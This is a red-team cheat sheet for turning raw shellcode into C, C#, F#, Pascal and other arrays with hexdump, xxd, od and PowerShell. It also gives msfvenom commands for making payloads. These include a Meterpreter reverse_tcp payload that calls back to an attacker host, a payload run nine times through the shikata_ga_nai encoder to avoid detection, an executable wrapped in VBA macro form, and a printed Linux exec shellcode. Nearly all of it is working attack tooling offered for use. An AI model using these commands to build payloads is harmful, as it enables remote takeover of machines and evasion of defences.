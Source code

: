 # Commands

Search Tag(s): #helpers

## 01 - Unix Shell

To install `hexdump`.

```
$ sudo apt install -y bsdextrautils
```

To install `xxd`.

```
$ sudo apt install -y xxd
```

Hexadecimal C array shellcode.

```
$ hexdump -ve '"\\\x" 1/1 "%02x"' shellcode.bin

$ xxd -i shellcode.bin
```

One line of hex shellcode format.

```
$ od -A n -t x1 -v shellcode.bin | tr -d "[:space:]"

$ basenc -w 0 --base16hex shellcode.bin

$ xxd -p shellcode.bin | tr -d "\n"

$ hexdump -ve '"\" 1/1 "%x"' shellcode.bin
```

## 02 - Powershell

Read bytes from the shellcode using powershell.

```powershell
PS C:\> $file = "shellcode.bin"

PS C:\> $bytes = [IO.File]::ReadAllBytes($file)
```

C language shellcode format.

```powershell
$shellcode_format = '\x' + (($bytes | ForEach-Object ToString x2) -join '\x')

"`nStandard shellcode format:`n`n" + $shellcode_format | Add-Content ($file + ".b64")`
```

C# shellcode format.

```powershell
$csharpformat = '0x' + (($bytes | ForEach-Object ToString x2 | ForEach-Object { $_ + ',' }) -join '0x')

$csharpformat = $csharpformat.SubString(0, $csharpformat.Length - 1)

"`nC# formatted shellcode:`n`n" + $csharpformat | Add-Content ($file + ".txt")

$cs_bytes = [System.Text.Encoding]::UTF8.GetBytes($csharpformat)

$cs_b64 = [Convert]::ToBase64($cs_bytes)

"`nBase64 Encoded C# shellcode:`n`n" + $cs_b64 | Add-Content ($file + ".b64")
```

F# shellcode format.

```powershell
$fsharpformat = '0x' + (($bytes | ForEach-Object ToString x2 | ForEach-Object { $_ + 'uy;' }) -join '0x')

$fsharpformat = $fsharpformat.SubString(0, $fsharpformat.Length - 1)

"`nF# formatted shellcode:`n`n" + $fsharpformat | Add-Content ($file + ".txt")
```

## 03 - MSFVenom

Pipe it through hexdump.

```
$ msfvenom -p linux/x86/exec cmd=whoami R | hexdump -ve '"\\\x" 1/1 "%02x"'
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 42 bytes

\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x07\x00\x00\x00\x77\x68\x6f\x61\x6d\x69\x00\x57\x53\x89\xe1\xcd\x80
```

Any raw shellcode binary even if it's not related to `metasploit-framework` using via `generic/custom` payload.

```
$ msfvenom -p windows/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f raw > payload-x86.bin

$ msfvenom -p generic/custom payloadfile=./payload-x86.bin -a x86 --platform windows -f c -o sc.c
```

You can also use a calculator program as a shellcode.

```
$ msfvenom -p generic/custom payloadfile=/path/to/file.exe -a x64 --platform windows -f vba-exe
```

Pipe it through msfvenom.

```
$ cat payload-x86.bin | msfvenom -p - -a x86 --platform windows -e x86/shikata_ga_nai -f c -i 9
```

Generate formatted Pascal shellcode.

```
$ msfvenom -p <payload> -f c | sed -r 's/[\x]+/$/g' | sed -r 's/[\]+/,/g' | sed -r 's/["]+//g' | sed -e 's/$/\,/' | cut -c 2-
```

---
## References

- [Shellcode Formatter](https://www.redteam.cafe/red-team/shellcode-injection/shellcode-formatter)